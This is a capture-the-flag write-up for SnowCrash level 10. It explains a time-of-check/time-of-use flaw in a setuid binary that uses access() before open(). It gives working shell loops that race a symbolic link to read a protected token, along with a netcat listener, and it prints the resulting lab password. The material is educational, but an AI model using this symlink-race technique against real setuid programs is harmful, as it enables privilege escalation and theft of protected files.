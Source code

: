 # Level 10

## The Challenge

The folder contains a binary named level10 owned by flag10. The setuid and setgid bits are set. There is also a file named token owned by flag10. Groups and others have no rights on token. level10 takes two arguments, a filename and an host address.
The idee seems to be to let level10 open for us the token file and display its content at the host address. But level10 claims that we don't have access to token :(

```sh
level10@SnowCrash:~$ ls -al
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
level10@SnowCrash:~$
```

## Decompile the code

... with dogbolt.org

```c
v1 = v0[1];
v2 = v0[2];
if (access(v0[1], 4))
{
    v14 = printf("You don't have access to %s\n");
}
```

...

```c
v4 = open(v1, 0, 8);
```

## The target

level10 check the rights on the file given as argument using the acces function. access check wether the real user id (here level10 ; the effective user id being flag10) have read right on a file.
access have a well known weakness:

man access(2)

```
 Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.
```

The idee is to provide as argument a random file on which level10 has the rights. Then switch it with token after the check with access and prior to the opening. Therefore we run a loop who switch a symbolic link between a genuine file we own and token and in parallel a loop who run level10 with the symbolic link as argument.

## The hack

We listen in one terminal

```sh
$ while true ; do netcat -l 127.0.0.1 6969; done
```

and run the loops in another one.

```sh
$ touch /tmp/mykey
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
$ killall bash
```

flag10 password: woupa2yuojeeaaed06riuj63c
